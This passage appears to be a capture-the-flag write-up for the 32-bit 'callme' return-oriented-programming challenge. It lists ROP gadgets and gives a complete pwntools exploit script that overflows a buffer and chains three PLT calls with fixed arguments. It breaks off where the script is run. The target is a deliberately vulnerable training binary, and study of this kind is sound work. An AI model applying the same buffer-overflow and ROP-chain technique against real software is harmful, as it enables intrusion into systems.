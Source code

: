 ```
0x080487fb : pop ebp ; ret
0x080487f8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484ad : pop ebx ; ret
0x080487fa : pop edi ; pop ebp ; ret
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
0x08048810 : pop ss ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x080486ea : popal ; cld ; ret
0x08048680 : push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
```

The one I am going to use is the gadget that pops exactly 3 values off the stack:
```
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
```
Right, now let's write our exploit script and get our flag:
```python
#!/usr/bin/env python3

from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"

e = ELF("./callme32")

io = e.process()

print(io.recvuntil('>'))

payload = b"A" * 44

pops = p32(0x080487f9) # pop esi; pop edi; pop ebp; ret

c1 = p32(0x080484f0) # callme_one@plt
c2 = p32(0x08048550) # callme_two@plt
c3 = p32(0x080484e0) # callme_three@plt

p1 = p32(0xdeadbeef)
p2 = p32(0xcafebabe)
p3 = p32(0xd00df00d)

payload += c1
payload += pops
payload += p1 + p2 + p3

payload += c2
payload += pops
payload += p1 + p2 + p3

payload += c3
payload += pops
payload += p1 + p2 + p3

with open('payload', 'wb') as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```
And now for the flag:
```
voidwalker@Abyss:[callmex86]** ./exploit.py
```